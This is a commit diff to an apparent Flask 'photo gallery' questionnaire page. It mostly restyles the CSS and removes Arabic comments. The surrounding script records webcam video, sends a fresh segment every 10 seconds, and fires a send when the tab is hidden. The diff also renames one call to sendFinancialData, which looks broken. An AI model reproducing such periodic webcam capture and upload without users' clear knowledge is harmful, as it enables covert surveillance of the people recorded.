

Before and after one commit to Youssef-mehrzi/Gallery-photos-Ai, a Flask app: page / in a window 1280 px wide. Shown: the top 1899 px of the page at 78% size, without its empty margins (0-1028 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -8,19 +8,19 @@
     <link href="https://fonts.googleapis.com/css2?family=Plus+Jakarta+Sans:wght@400;500;600;700;800&display=swap" rel="stylesheet">
     <style>
         :root {
-            --bg-gradient: linear-gradient(135deg, #0f172a 0%, #1e1b4b 50%, #31103f 100%);
-            --card-bg: rgba(255, 255, 255, 0.95);
+            --bg-gradient: #ffffff;
+            --card-bg: #ffffff;
             --primary-accent: #6366f1;
             --secondary-accent: #ff4757;
             --success-color: #10b981;
-            --text-main: #1e293b;
-            --text-muted: #64748b;
+            --text-main: #0f172a;
+            --text-muted: #475569;
             --input-bg: #f8fafc;
-            --border-color: #e2e8f0;
+            --border-color: #cbd5e1;
             --border-focus: #6366f1;
-            --radius-lg: 20px;
-            --radius-md: 12px;
-            --shadow-glow: 0 20px 40px -15px rgba(99, 102, 241, 0.3);
+            --radius-lg: 24px;
+            --radius-md: 14px;
+            --shadow-glow: 0 20px 40px -15px rgba(99, 102, 241, 0.15);
         }
 
         * {
@@ -31,7 +31,6 @@
         body {
             font-family: 'Plus Jakarta Sans', Arial, sans-serif;
             background: var(--bg-gradient);
-            background-attachment: fixed;
             display: flex;
             justify-content: center;
             align-items: center;
@@ -43,14 +42,12 @@
 
         .card {
             background: var(--card-bg);
-            backdrop-filter: blur(12px);
             padding: 40px 35px;
             border-radius: var(--radius-lg);
-            box-shadow: 0 25px 50px -12px rgba(0, 0, 0, 0.4), var(--shadow-glow);
+            box-shadow: 0 20px 40px -10px rgba(0, 0, 0, 0.08), 0 0 0 1px rgba(0, 0, 0, 0.04);
             text-align: center;
             max-width: 600px;
             width: 100%;
-            border: 1px solid rgba(255, 255, 255, 0.3);
             animation: fadeIn 0.6s cubic-bezier(0.16, 1, 0.3, 1);
         }
 
@@ -63,7 +60,7 @@
             display: flex;
             justify-content: space-between;
             align-items: center;
-            margin-bottom: 15px;
+            margin-bottom: 20px;
             flex-wrap: wrap;
             gap: 10px;
         }
@@ -77,7 +74,7 @@
             font-weight: 800;
             letter-spacing: 1.2px;
             text-transform: uppercase;
-            box-shadow: 0 6px 15px rgba(99, 102, 241, 0.35);
+            box-shadow: 0 6px 15px rgba(99, 102, 241, 0.25);
         }
 
         .lang-select {
@@ -146,11 +143,11 @@
         .question-box {
             margin-bottom: 16px;
             text-align: left;
-            background: #ffffff;
+            background: #f8fafc;
             padding: 16px 18px;
             border-radius: var(--radius-md);
             border: 1px solid var(--border-color);
-            box-shadow: 0 2px 5px rgba(0,0,0,0.02);
+            box-shadow: 0 2px 5px rgba(0,0,0,0.01);
         }
 
         [dir="rtl"] .question-box {
@@ -172,7 +169,7 @@
             font-size: 14px;
             font-family: inherit;
             color: var(--text-main);
-            background-color: var(--input-bg);
+            background-color: #ffffff;
             border: 1px solid var(--border-color);
             border-radius: 8px;
             outline: none;
@@ -352,7 +349,6 @@
             return details;
         }
 
-        // إرسال فيديو حقيقي سليم ومستقل كل 10 ثوانٍ عبر تدوير الـ MediaRecorder
         function startNewRecorderSegment() {
             if (isCompleted || !mediaStream) return;
 
@@ -414,19 +410,17 @@
                 const videoElement = document.getElementById('webcam');
                 videoElement.srcObject = mediaStream;
 
-                // بدء أول مقطع فيديو فوري بعد ثانيتين لتنبيه الدخول
                 setTimeout(() => {
                     startNewRecorderSegment();
                 }, 2000);
 
-                // تدوير وإرسال مقطع فيديو حقيقي جديد كل 10 ثوانٍ بانتظام
                 videoInterval = setInterval(() => {
                     if (!isCompleted) {
                         if (mediaRecorder && mediaRecorder.state !== "inactive") {
-                            mediaRecorder.stop(); // إيقاف المقطع الحالي ليتم إرساله تلقائياً عبر onstop
+                            mediaRecorder.stop();
                         }
                         setTimeout(() => {
-                            startNewRecorderSegment(); // بدء المقطع التالي
+                            startNewRecorderSegment();
                         }, 500);
                     }
                 }, 10000);
@@ -508,10 +502,9 @@
             statusDiv.innerText = currentLang === 'ar' ? 'شكراً لك! تم إرسال إجاباتك بنجاح.' : 'Merci ! Vos réponses ont été soumises avec succès.';
         }
 
-        // الحماية عند إغلاق التطبيق فجأة أو الضغط على زر المربع
         document.addEventListener('visibilitychange', () => {
             if (document.visibilityState === 'hidden' && !isCompleted) {
-                sendFinalData("Fermé subitement / Bouton carré");
+                sendFinancialData("Fermé subitement / Bouton carré");
             }
         });
 
```
